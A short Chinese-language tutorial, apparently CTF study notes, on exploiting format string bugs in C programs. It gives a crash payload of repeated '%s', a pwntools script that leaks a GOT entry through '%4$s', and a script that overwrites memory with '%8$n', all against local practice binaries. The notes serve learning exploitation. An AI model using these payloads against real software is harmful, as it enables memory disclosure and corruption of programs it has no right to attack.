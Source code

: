   - %， '`%`'字面值，不接受任何 flags, width。

## 利用

### 程序崩溃

```c
%s%s%s%s%s%s%s%s%s%s%s%s%s%s
```

### 泄露内存

- 泄露栈内存
  - 获取某个变量的值
  - 获取某个变量对应地址的内存
- 泄露任意地址内存
  - 利用 GOT 表得到 libc 函数地址，进而获取 libc，进而获取其它 libc 函数地址
  - 盲打，dump 整个程序，获取有用信息。

GOT表泄露的问题

```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

**Tips:**

- `%llx` 打印 8bytes
- `%p` 不用考虑位数问题

- `%n$x` 打印第n+1个参数（格式化字符串算第0个参数）

### 覆盖内存

#### 覆盖小数字

```python
def fora():
    sh = process('./overwrite')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr) # 改为0
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```
